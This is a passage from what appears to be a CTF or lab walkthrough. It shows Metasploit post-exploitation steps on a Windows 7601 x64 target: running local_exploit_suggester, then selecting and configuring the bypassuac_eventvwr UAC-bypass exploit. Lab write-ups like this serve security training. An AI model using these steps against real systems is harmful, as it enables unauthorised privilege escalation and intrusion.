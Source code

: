 * ### The buid is ```7601```.
* ### The Architecture is ```x64```.

### Let run a post module of recon to get more way to exploit this system.
```
run post/multi/recon/local_exploit_suggester
```
<div align="center">
<img src="https://github.com/user-attachments/assets/9e70bc03-f656-42e2-9963-f9f681fb569e" height=""></img>
</div>

* ### The first exploit we got is
```
exploit/windows/local/bypassuac_eventvwr
```

## oh sry my machine got expired

### Now we have an exploit let backgound this session using 
```
ctrl + z
```

<div align="center">
<img src="https://github.com/user-attachments/assets/7c348c05-8a42-436d-a556-2946f805e2c2" height=""></img>
</div>

### But before running use command back to back from previous exploit
```
back
```

<div align="center">
<img src="https://github.com/user-attachments/assets/17b468ba-07ba-4ed2-81a3-d010921e7e9e" height=""></img>
</div>

### So, let run the exploit we found.
```
use exploit/windows/local/bypassuac_eventvwr
```

<div align="center">
<img src="https://github.com/user-attachments/assets/48fe5f45-3065-4835-8639-d057e9dc6405" height=""></img>
</div>

### Now let see options this exploit
```
show options
```
